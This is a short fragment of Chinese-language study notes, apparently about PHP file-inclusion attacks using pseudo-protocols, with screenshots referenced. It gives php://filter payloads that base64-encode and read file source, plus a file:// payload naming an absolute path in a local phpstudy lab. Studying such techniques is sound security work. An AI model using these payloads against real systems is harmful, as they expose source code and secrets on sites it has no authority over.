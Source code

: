 <img src=".\图片\Snipaste_2023-04-09_04-25-34.png" alt="Snipaste_2023-04-09_04-25-34" style="zoom:67%;" />

#### 包含伪协议

##### fillter、file读取文件源码

```php
php://filter/convert.base64-encode/resource=../data/x.txt
php://filter/read=convert.base64-encode/resource=../data/x.txt
```

<img src=".\图片\Snipaste_2023-04-09_04-28-18.png" alt="Snipaste_2023-04-09_04-28-18" style="zoom:67%;" />

```http
rce=file://D:\phpstudy\WWW\www.phpsec.com\data\x.txt                     file://+绝对路径
```
